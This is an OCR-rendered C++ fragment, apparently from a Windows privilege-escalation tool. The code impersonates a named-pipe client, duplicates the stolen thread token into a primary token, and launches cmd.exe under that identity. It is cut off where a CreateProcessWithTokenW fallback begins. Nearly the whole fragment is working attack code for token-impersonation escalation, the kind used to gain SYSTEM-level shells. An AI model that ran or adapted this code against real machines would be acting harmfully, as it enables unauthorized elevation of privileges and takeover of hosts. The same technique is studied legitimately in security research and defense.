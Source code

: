 ```c++
    PROCESS_INFORMATION pi;

    HANDLE hProcess;
    HANDLE hToken = NULL;
    HANDLE phNewToken = NULL;

    // clear a block of memory
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    // Impersonates a named-pipe client application.
    if (ImpersonateNamedPipeClient(hNamedPipe))
    {
        printf("[+] ImpersonateNamedPipeClient success.\n");
    }
    else
    {
        printf("[-] ImpersonateNamedPipeClient() Error: %i.\n", GetLastError());
        return;
    }

    // Open the impersonation token handle associated with the current thread.
    if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken))
    {
        printf("[+] OpenThreadToken success.\n");
    }
    else
    {
        printf("[-] OpenThreadToken() Error: %i.\n", GetLastError());
        return;
    }

    // Convert the impersonation token obtained in the previous step into the primary token
    if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &phNewToken))
    {
        printf("[+] DuplicateTokenEx success.\n");
    }
    else
    {
        printf("[-] DupicateTokenEx() Error: %i.\n", GetLastError());
        return;
    }

    // Creates a new process and its primary thread. The new process runs in the security context of the user represented by the specified token.
    if (CreateProcessAsUser(phNewToken, (LPWSTR)L"C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, TRUE, CREATE_UNICODE_ENVIRONMENT | CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi))
    {
        printf("[+] CreateProcessAsUser success.\n");

        CloseHandle(hToken);
        CloseHandle(phNewToken);

        return;
    }
    else if (GetLastError() != NULL)
    {
        RevertToSelf();
        printf("[!] CreateProcessAsUser() failed, possibly due to missing privileges, retrying with CreateProcessWithTokenW().\n");

```